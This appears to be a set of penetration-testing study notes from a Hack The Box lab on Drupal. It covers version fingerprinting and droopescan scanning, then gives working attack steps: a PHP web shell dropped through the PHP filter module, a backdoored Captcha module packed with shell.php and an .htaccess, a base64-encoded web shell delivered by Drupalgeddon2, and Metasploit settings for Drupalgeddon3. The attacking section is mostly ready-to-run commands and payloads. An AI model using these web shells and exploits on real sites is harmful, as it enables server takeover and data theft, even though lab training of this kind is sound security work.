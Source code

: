 ## Info

`/node/<nodeid>`

`CHANGELOG.txt`


## Enumeration

**Checking install**

`L3pr3ch4un@htb[/htb]$ curl -s http://drupal.inlanefreight.local | grep Drupal`

Another way to identify Drupal CMS is through nodes. Drupal indexes its content using nodes. A node can hold anything such as a blog post, poll, article, etc. The page URIs are usually of the form `/node/<nodeid>`.

**Version Fingerprinting**

`L3pr3ch4un@htb[/htb]$ curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""`

**Automated scanners**

`L3pr3ch4un@htb[/htb]$ droopescan scan drupal -u http://drupal.inlanefreight.local`

## Attacking

**Code Execution**

In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the `PHP filter` module, which "Allows embedded PHP code/snippets to be evaluated."

From here, we could tick the check box next to the module and scroll down to `Save configuration`. 

Next, we could go to Content --> Add content and create a `Basic page`.

`<?php system($_REQUEST['cmd']);?>`

`Text format drop-down to PHP code.`

**Testing backdoor**

`[!bash!]$ curl -s http://drupal-qa.inlanefreight.local/node/3?cmd=id | grep uid | cut -f4 -d">"`

From version 8 onwards, the PHP Filter module is not installed by default.

**Alternative**

`[!bash!]$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz`

Once downloaded go to `Administration` > `Reports` > `Available updates`.

From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.

And repeat above steps

**Backdoor Module**

```
[!bash!]$ wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
[!bash!]$ tar xvf captcha-8.x-1.2.tar.gz
[!bash!]$ echo "<?php system(\$_GET[cmd]); ?>" > shell.php
[!bash!]$ echo -e "<IfModule mod_rewrite.c>\nRewriteEngine On\nRewriteBase /\n</IfModule>" > .htaccess
[!bash!]$ mv shell.php .htaccess captcha
[!bash!]$ tar -czvf captcha.tar.gz captcha/
```

`Manage`>`Extend`>`Install new module`

Browse to the backdoored Captcha archive and click `Install`.

`[!bash!]$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?cmd=id`

## Vulnerabilities aka Drupalgeddon

- [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
- [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.

**Drupalgeddon 1**

We could also use the exploit/multi/http/drupal_drupageddon Metasploit module to exploit this.

[!bash!]$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

**Drupalgeddon 2**

Edit echo command in exploit to 

` echo "PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+Cg==" | base64 -d | tee shell.php`

```
[!bash!]$ python3 drupalgeddon2.py
[!bash!]$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?cmd=id
```

**Drupalgeddon 3**

`Vulnerable versions`:`Drupal 7.x,8.5.x,8.4.x`

Obtain a valid session cookie.

![](https://academy.hackthebox.com/storage/modules/113/burp.png)

Once we have the session cookie, we can set up the exploit module as follows.

```
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=<session cookie>
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
```
